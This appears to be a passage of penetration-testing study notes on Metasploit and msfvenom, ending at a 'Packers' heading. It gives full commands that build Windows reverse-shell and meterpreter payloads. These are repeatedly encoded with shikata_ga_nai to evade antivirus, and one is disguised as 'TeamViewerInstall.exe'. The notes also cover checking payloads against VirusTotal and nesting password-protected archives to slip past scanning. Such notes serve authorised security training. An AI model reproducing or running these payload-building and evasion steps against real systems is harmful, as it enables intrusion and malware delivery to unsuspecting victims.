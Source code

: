 ## Search for an exploit

- `search exploit name`
- `help search` more details on how to use the help command

## Using a module

- `show options` to see what we need to set
- `set RHOST 10.10.10.10` to set a target
- `setg` to set an option permanently until the program is restarted
- `run` or `exploit` to run our exploit once options are set
- We can `grep` in msfconsole if we need to filter our results example: `grep meterpreter show payloads`
- We can use `ifconfig`inside as well if we do not remember our ip for the LHOST

## msfvenom

### Evasion

#### Encoders for evasion

Encoding the payload in different formats could help with the AV detection.  
[Shikata Ga Nai (SGN)](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) is one of the most utilized Encoding schemes today because it makes payloads hard to detect.  
Example `msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`  
Or `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`  
We can iterate the encoding scheme to have more chance of being undetected. `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe` Here with -i we iterate 10 times.  

- If we register a free account on virus total we can get an API key and use `msf-virustotal` to check if our payloads are detected. Than we can check our payload this way `msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal`

#### Archives

We can archive our payload and password protect the archive.

- `rar a ~/test.rar -p ~/test.js`
- `mv test.rar test` we remove the rar extension
- `rar a test2.rar -p test` we archive it again and remove the rar extension again
- This is an excellent way to transfer data both to and from the target host.

> This might raise a flag in the AV mentioning that the file could not be scanned because it was password protected.

#### Packers
